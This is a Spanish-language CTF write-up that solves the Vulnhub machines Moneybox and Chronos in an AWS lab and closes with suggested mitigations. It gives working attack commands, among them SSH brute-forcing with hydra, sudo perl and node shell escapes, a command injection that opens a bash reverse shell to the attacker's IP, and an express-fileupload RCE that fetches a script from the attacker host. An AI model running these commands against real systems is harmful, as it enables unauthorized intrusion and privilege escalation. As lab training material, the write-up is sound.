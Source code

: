 # Introducción
En este proyecto se efectúa la solución a 02 máquinas CTF(Capture The Flag) del repositorio de Vulnhub: [Moneybox](https://www.vulnhub.com/entry/moneybox-1,653/) y [Chronos](https://www.vulnhub.com/entry/chronos-1,735/), montadas en un entorno cloud empleando el servicio EC2 de AWS.

# Infraestructura
Tanto Moneybox como Chronos se montaron en diferentes instancias EC2, adicionalmente la máquina atacante con [Kali](https://www.kali.org/get-kali/#kali-platforms). Las 03 instancias se encuentran desplegadas en la misma VPC y se realiza el networking correspondiente para que se encuentren conectadas entre sí. Sin embargo la única máquina accesible desde fuera a través de una public IP es la máquina atacante.

**`Infraestructura inicial`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=11c5o4umxrLiI0OOnam64kf3EjaVgHJ2X"></img></p>

**`Infraestructura securizada con herramientas nativas AWS`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1pADHae9b56royVwhx0JmwbbxH67-VIH5"></img></a>

# Moneybox (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`FTP abuse`**
```bash
$ ftp -U anonymous:anonymous <ip-target>
$ ftp > get
```
**`Steganography & HTTP abuse`**
```bash
$ xxd -l <specific-file>
$ curl <ip-target>:80
$ dirb <ip-target>:80
$ steghide extract -sf <specific-file>
```
**`SSH Brute Force`**
```bash
$ hydra -l <any-user> -P <dictionary.txt> -f <ip-target> ssh
```
**`Privilege escalation with PERL`**
```bash
$ sudo perl -e 'exec "/bin/sh";'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1KeScz_V1E5-qjqXH3OwnRvCzOa4t1ueu"></img></p>

**`Flags`**
```bash
> us3r1{F14g:0ku74tbd3777y4}
> us3r{F14g:tr5827r5wu6nklao}
> r00t{H4ckth3p14n3t}
```

# Chronos (Técnicas aplicadas)
**`Scanning`**
```bash
$ nmap -sV <ip-target>
```
**`HTTP abuse & domain resolution`**
```bash
$ curl http://<ip-target>
$ echo "<ip-target> chronos.local" >> /etc/hosts
$ curl http://chronos.local
```
**`Deobfuscation, decode, payload generation & command injection (Reverse shell)`**
```bash
$ curl http://chronos.local/date?format=('+Today is %A, %B %d, %Y %H:%M:%S.'; bash -c 'bash -i >& /dev/tcp/<ip-kali>/9002 0>&1')[base58 Encode]
$ nc -nlvp 9002
```
**`www-data abuse`**
```bash
$ cd ../chronos-v2/backend
$ cat package.json
```
**`RCE attack to express-fileupload (versions < 1.1.10)`**
```bash
> Kali side:
$ python3 -m http.server
$ nc -nlvp 8888

> target-side
$ wget http://<ip-kali>:8000/pollutor.py
$ python3 pollutor.py
```
**`Abuse "imera" user & Shell spawn with NODE`**
```bash
$ sudo -l
$ sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
```
**`Execution diagram`**
<p align="center"><img src="https://drive.google.com/uc?export=view&id=1iwHlQc8Gl9fvGv-oV7CMMLNU5yXst9Yy"></img></p>

**`Flag`**
```bash
> YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```
# Medidas de mitigación de vulnerabilidades encontradas
**`Moneybox`**
+ Actualizar el servicio FTP a su ultima versión y si es posible migrar hacia otro puerto.
+ Eliminar el acceso FTP anónimo (anonymous:anonymous) asignar un usuario y una contraseña.
+ Utilizar certificados lugar de contraseñas de usuario para el acceso por SSH.
+ Emplear herramientas que eviten ataques de fuerza bruta tales como: **fail2ban** y **fwknop**.
+ Editar el fichero /etc/sudoers asignando los mínimos privilegios a grupos y usuarios.
+ Hardening del servidor web Apache.
+ Utilizar infraestructura adicional como IDS/IPS (mostrada en infraestructura securizada nativa de AWS).

**`Chronos`**
+ Evitar malas prácticas en el desarrollo backend: Evitar uso directo de comandos del sistema en el código o en su defecto, mitigar el uso de *keywords* tales como: bash, sh, whoami, etc.
+ Prevenir accesos mediante reverse-shell a través de NODE modificando el atributo de express-fileupload a **{parseNested: false}**.
+ Asignar lo mínimos privilegios mediante el fichero /etc/sudoers.
+ Emplear infraestructura securizada adicional (como la nativa proporcionada por AWS).
